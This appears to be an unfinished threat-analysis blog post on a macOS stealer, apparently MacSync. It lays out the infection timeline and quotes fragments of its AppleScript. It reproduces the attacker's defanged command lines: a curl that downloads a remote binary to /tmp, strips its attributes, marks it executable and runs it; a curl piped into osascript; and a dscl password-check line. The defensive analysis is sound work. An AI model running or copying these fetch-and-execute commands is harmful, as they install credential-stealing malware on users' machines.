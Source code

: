 ```yaml
---
title: MacSync Stealer Analysis
categories: 
  - MacOS
  - Malware
tags:
  - blog
  - macos
  - malware
  - analysis
  - stealer
  - macsync
date: 2025-10-18
description: Most stealers are just 3 AMOS's in a trench coat, but this one's just wearing an AMOS fanclub t-shirt. 
author: izzyboop
image:
    path: /assets/img/MacSync/amos.png
    visible: false
---
```


> I'm workin' on it.
{: .prompt-danger }

## Introduction

On **October 17th, 2025** I was looking through some malicious activity detected on a MacOS host. While giving it a gander my colleague sent me a link to the very same detection, mentioned it looked like **MacSync**, and shared some related `applescript`.

The purpose of this blog will be to:
- Review the observed attack timeline
- Rip apart the related applescript
- A feeble attempt to determine whether or not this is actually MacSync
- Answer the burning question: How do we hunt for it?

---

## The Observed Attack Timeline 

### Before the Detector Fired

Evidence suggests the initial access vector for this malicious execution was `Paste & Run`. One piece of evidence I have to back this up is the intial `curl` instance reaching out to `wave.ndoq-0[.]ru` which has comments on the community tab of [VT](https://www.virustotal.com/gui/domain/wave.ndoq-0.ru/community) pointing to `ClearFake` which is known to utilize `Paste & Run`. Further, the parent process of this malicious curl was `Terminal > login > zsh`, which is expected behaviour for `Paste & Run`.

### +00:00:00 Initial Curl
{% raw %}
```bash
curl -A Mac OS X 10_15_7 -fsSL hxxps://wave.ndoq-0[.]ru/r7h.check?t=[redacted]
```
{: .nolineno }
{% endraw %}

The first observed instance of `curl` reaching out to a malicious domain using thr `-A` flag to send `Mac OS X 10_15_7` as the user agent string. While this string does exist in a legitimate user agent string, it is incomplete. An expected user agent string would be similar to:

{% raw %}
```
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/18.5 Safari/605.1.15
```
{: file="User Agent String" .nolineno }
{% endraw %}


I do not believe `Mac OS X 10_15_7` is ever a legitimate user agent string. I could be wrong though. 

It's likely this domain does not respond without this user agent string paired with the `t=` token in the URL. This URL also appears to be related to `ClearFake Malware`, according to [VT](https://www.virustotal.com/gui/domain/wave.ndoq-0.ru/community), which appears to be running some `paste & run` shenanigans at the time of writing.

### +00:00:01 Another Curl

Another instance of `curl` reaches out to `lt7d.ko0um[.]online`

This was observed in network telemetry as opposed to process logs, so while it's likely the command line looked similar to the above curl, I was not able to confirm this. 

### +00:00:01 Pulling Down Malicious Mach-O Binary
{% raw %}
```bash
sh -c cd "${TMPDIR:-/tmp}" # tmp directory go brr
&& curl -fsSL hxxps://58462.disruptmyself[.]com/App.bin -o update # gimme file
&& xattr -c update 2>/dev/null || true # remove xattributes
&& chmod +x update # make it executable
&& ./update # send it
```
{: .nolineno }
{% endraw %}

This command line uses `cd,`, `curl`, `xattr`, and `chmod` which are all core system utilities. This commandline uses `cd` to move into a relevant temp directory, `curl -fsSL` to reach out and pull down a remote payload `App.bin` from a malicious URL and saves it on disk as `update` which is a Universal Mach-O binary containing an `x64` and an `ARM64` executable. ([VT](https://www.virustotal.com/gui/file/545f3ae82e2addca3e5f647d55bea79ee299324400269978ab137f5fbfd84a9f))

Heres a quick breakdown of `curl -fsSL` for those curious:

- `-f` or `--fail` > Fail silently (no output on HTTP errors)
  - If the server returns an HTTP error (like `404` or `500`), `curl` won’t show the HTML error page, it will just exit with a non-zero status code.
- `-s` or `--silent` > Silent mode
  - Disables progress bars and error messages.
  - Makes the command output only the actual response data (if any).
- `-S` or `--show-error` > Show errors even when silent
  - Works with `-s`.
  - If an error occurs, it will print the error message, even though other output is suppressed.
  - Basically: “be quiet unless something goes wrong.”
- `-L` or `--location` > Follow redirects
  - If the server responds with a redirect (`3xx` status), `curl` will automatically follow the `Location:` header to the new URL.

It then uses `xattr -c` to clear out all attributes and `chmod +x` to make it executable, then executes the payload.

### +00:00:01 Initial Execution of Mach-O Binary

`bash` executes `./update` 

### +00:00:03 Executes Itself 

`update` executes `./update` 

### +00:00:03 Pulling Down AppleScript

`update` executes `bash` with the following command line:
{% raw %}
```bash
sh -c curl -k -s -H "api-key: [key redacted]" hxxps://goalbus[.]space/dynamic?txd=[redacted] 
| osascript
```
{: .nolineno }
{% endraw %}

This is the specific instance of `curl` where the malicious applescript is downloaded and piped to `osascript`. If you aren't familiar, `osascript` is a command-line tool on MacOS that runs scripts written in applescript or other languages compatible with the `Open Scripting Architecture`. Simply put, applescript is the scripting language, osascript is the tool to execute it. This applescript will be reviewed in a following section below.

### +00:00:03 Osascript Execution

`bash` spawns `osascript`

This is the result of `curl` piping the malicious applescript into `osascript` and is where the applescript is initially executed.

### +00:00:03 DSCL Auth Attempt

`osascript` spawns `sh` with the following command line:
{% raw %}
```bash
sh -c dscl . authonly 'user.name' ''
```
{: .nolineno }
{% endraw %}

This line is very important. After `update` is executed, malicious applescript is used to prompt the user for their password then use `dscl` to attempt to authenticate said user against the local directory service. If the user does not enter their password, this line will contain a user name followed by empty single quotes `''` where a password whould have been. An example of this artifact where a user does enter their password would look like `sh -c dscl . authonly 'user.name' 'password'`.

What does this mean? Well, it appears the rest of the execution chain was interrupted by the user failing to, or refusing to, enter their password. There are further steps in the applescript execution chain that should have taken place that were not evident in this observed instance. It is very likely that there are checks in place in the applescript to terminate execution if this authentication step fails. We will review in the applescript section below.

### +00:00:03 Killall Terminal

`osascript` spawns `sh` with the following command line:
{% raw %}
```bash
sh -c killall Terminal
```
{: .nolineno }
{% endraw %}

---

## The AppleScript

> Caveat: I will be sharing bits and pieces of the AppleScript here, however, since the script is very long, malicious, and fairly new, I would like to avoid just yeeting it in its entirety into the internet ether. 
{: .prompt-info }

The first thing I do for every single AppleScript file I come across is a `Command + F` for `system_profiler` to quickly find whether or not the script in question does basic VM checks. This one does:

{% raw %}
```applescript
set result to (
  do shell script "system_profiler SPSoftwareDataType SPHardwareDataType SPDisplaysDataType"
)
```
{: file="new 9.osdscript" .nolineno }
{% endraw %}

If we wanted to execute this script for some dynamic analysis efforts, we could simply remove this line from the script. If this were a compiled binary, that's a whole different story (something something binja something). Lucky for us, simply reading the script can shine light on almost everything we need.

---

## Is it MacSync?

---

## Hunting Opportunities

---

## Conclusion
